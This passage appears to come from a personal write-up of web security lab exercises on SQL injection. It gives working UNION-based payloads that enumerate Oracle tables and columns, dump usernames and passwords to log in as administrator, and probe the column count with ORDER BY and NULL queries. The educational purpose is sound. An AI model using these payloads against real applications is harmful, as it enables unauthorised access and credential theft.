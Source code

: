 ![](/assets/images/SQLi/Pasted%20image%2020250929225756.png)

We use the below query to find the table names.

```
' UNION SELECT table_name, null FROM all_tables-- -
```

We found the table `USERS_HAKECP`.

![](/assets/images/SQLi/Pasted%20image%2020250929231240.png)

We then try to find the column names with this query.

```
' UNION SELECT column_name, null FROM all_tab_columns WHERE table_name = 'USERS_HAKECP' -- - 
```

We found the column `PASSWORD_PVZJRH`.

![](/assets/images/SQLi/Pasted%20image%2020250929232336.png)

We found the column `USERNAME_PFKKLW`.

![](/assets/images/SQLi/Pasted%20image%2020250929232355.png)

Finally we use this query to leak the credentials of users.

```
' UNION SELECT USERNAME_PFKKLW, PASSWORD_PVZJRH FROM USERS_HAKECP -- - 
```

We find the `administrator` user's password.

![](/assets/images/SQLi/Pasted%20image%2020250929232451.png)

We use the creds to login, solving the lab.

![](/assets/images/SQLi/Pasted%20image%2020250929232613.png)

### 7. SQL injection UNION attack, determining the number of columns returned by the query

Payload that worked:

```
' UNION SELECT NULL, NULL, NULL-- -
```

Explanation:

As before, we make sure the `category` parameter sends some value and we send the request to repeater.

![](/assets/images/SQLi/Pasted%20image%2020250930124349.png)

We try to find the number of columns using the `ORDER BY` clause. `ORDER BY 3` had worked.

```
' ORDER BY 4-- -
```
